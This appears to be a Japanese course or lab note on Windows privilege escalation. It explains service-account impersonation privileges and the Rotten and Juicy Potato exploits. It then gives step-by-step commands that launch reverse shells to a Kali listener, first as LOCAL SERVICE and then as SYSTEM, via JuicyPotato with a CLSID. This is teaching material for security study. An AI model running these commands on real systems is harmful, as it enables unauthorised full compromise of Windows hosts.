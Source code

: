 講座の最初にサービスアカウントについて簡単に説明しました。 サービスアカウントは、サービスを実行するために特別な権限を与えることができ、直接ログインすることはできません。 残念ながら、サービスアカウントには複数の問題が見つかっており、権限をエスカレートさせることが容易になってしまっています。

### Rotten Potato
Rotten Potatoエクスプロイトのオリジナルは2016年に確認されました。 サービスアカウントがSYSTEMチケットを傍受し、それを使ってSYSTEMユーザーになりすますことができました。 これは、サービスアカウントが通常「SeImpersonatePrivilege」権限を有効にしているために可能だったものです。

### SeImpersonate / SeAssignPrimaryToken
サービスアカウントは、一般的にこの2つの権限で構成されています。 これらの権限により、アカウントは他のユーザー（SYSTEMユーザーを含む）のアクセストークンになりすますことができます。 これらの権限を持つユーザーは、本講義のトークンなりすまし悪用が実行可能です。

### Juicy Potato
Rotten Potatoはかなり限定的なエクスプロイトでした。 Juicy PotatoはRotten Potatoと同じように動作しますが、作者は広範囲な調査を行い、さらに多くのエクスプロイト方法を発見しました。https://github.com/ohpe/juicy-potato。

# Privilege Escalation

(注：この手順は<span style="color:red;">Windows 7</span>の場合です。）
1. PSExec64.exeとJuicyPotato.exeのエクスプロイト実行ファイルをWindowsにコピーしてください。
2. Kaliでリスナーを開始する。
3. <span style="color:red;">管理者用コマンドプロンプト</span>を使用して、PSExec64.exeを使用して、ローカルサービスのサービスアカウントとして実行するリバースシェルを起動します。
```
> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
4. Kaliで別のリスナーを開始する。
5. 次に、JuicyPotatoエクスプロイトを実行して、SYSTEM権限で実行するリバースシェルを起動します。
```
> C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
6. CLSID ({03ca...) がうまくいかない場合は、こちらのリストを確認するか、https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md GetCLSID.ps1 PowerShellスクリプトを実行してみてください。
